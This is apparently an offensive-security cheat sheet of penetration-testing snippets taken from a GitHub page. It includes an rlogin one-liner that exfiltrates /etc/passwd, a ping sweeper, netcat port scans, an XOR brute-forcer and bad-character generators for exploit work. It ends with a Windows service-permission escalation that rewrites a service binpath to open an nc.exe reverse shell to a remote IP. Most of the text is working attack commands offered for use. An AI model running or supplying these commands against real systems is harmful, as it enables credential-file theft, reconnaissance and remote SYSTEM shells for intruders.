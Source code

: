 ### rlogin Data Exfiltration

```bash
rlogin -l "$(cat /etc/passwd)" -p port host
```

### Bash Ping Sweeper

```bash
#!/bin/bash
for lastOctet in {1..254}; do 
    ping -c 1 10.0.0.$lastOctet | grep "bytes from" | cut -d " " -f 4 | cut -d ":" -f 1 &
done
```

### Brute-forcing XOR'ed string with 1 byte key in Python

```python
encrypted = "encrypted-string-here"
for i in range(0,255):
    print("".join([chr(ord(e) ^ i) for e in encrypted]))
```

### Generating Bad Character Strings

```python
# Python
'\\'.join([ "x{:02x}".format(i) for i in range(1,256) ])
```

```bash
# Bash
for i in {1..255}; do printf "\\\x%02x" $i; done; echo -e "\r"
```

### Converting Python to Windows Executable \(.py -&gt; .exe\)

```csharp
python pyinstaller.py --onefile convert-to-exe.py
```

### Port Scanning with NetCat

```csharp
nc -nvv -w 1 -z host 1000-2000
nc -nv -u -z -w 1 host 160-162
```

### Exploiting Vulnerable Windows Services: Weak Service Permissions

```csharp
# Look for SERVICE_ALL_ACCESS in the output
accesschk.exe /accepteula -uwcqv "Authenticated Users" *

sc config [service_name] binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""
sc qc [service_name] (to verify!)
sc start [service_name]
```
